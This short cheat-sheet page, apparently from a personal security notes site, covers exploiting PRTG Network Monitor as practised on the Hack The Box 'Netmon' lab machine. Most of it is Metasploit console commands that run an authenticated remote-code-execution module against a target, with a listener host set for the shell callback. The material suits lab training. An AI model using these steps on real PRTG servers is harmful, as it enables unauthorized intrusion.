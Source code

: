 # PRTG Network Monitor

[![netmon](../../../../cybersecurity/_badges/htb-p/netmon.svg)](https://app.hackthebox.com/machines/Netmon)

<div class="row row-cols-lg-2"><div>

[Paessler PRTG](https://en.wikipedia.org/wiki/Paessler_PRTG)  is an network monitoring software. On Windows, there are two folders, one for the program, another for the data:

```makefile!
C:\Program Files (x86)\PRTG Network Monitor
C:\ProgramData\Paessler\PRTG Network Monitor
```

If we have admin access, we can exploit a RCE.
</div><div>

For instance, with [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md):

```shell!
$ msfconsole -q
msf6> use windows/http/prtg_authenticated_rce
msf6> set RHOSTS <ip>
msf6> set LHOST tun0
msf6> run # try default password
msf6> set ADMIN_PASSWORD <password>
msf6> run
```
</div></div>